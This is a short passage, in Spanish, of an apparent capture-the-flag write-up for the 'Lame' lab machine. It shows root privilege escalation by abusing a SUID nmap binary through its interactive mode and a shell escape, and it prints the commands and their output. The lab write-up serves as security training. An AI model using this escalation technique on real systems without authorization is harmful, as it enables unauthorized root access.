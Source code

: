 Vemos que tenemos permisos SUID para `nmap`, así que primero vemos que versión de la herramienta cuenta el sistema.

```bash
daemon@lame:/$ nmap -v

Starting Nmap 4.53 ( http://insecure.org ) at 2021-08-27 23:19 EDT
Read data files from: /usr/share/nmap
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.011 seconds
           Raw packets sent: 0 (0B) | Rcvd: 0 (0B)
daemon@lame:/$
```

Debido a la versión, podemos iniciar una sesión interactiva y de ahí obtener una shell como el usuario administrador

[Gtfobins](https://gtfobins.github.io/gtfobins/nmap/#suid)

```bash
daemon@lame:/$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
sh-3.2#
```

Ya somos **root** del equipo y podemos visualizar la flag (root.txt).
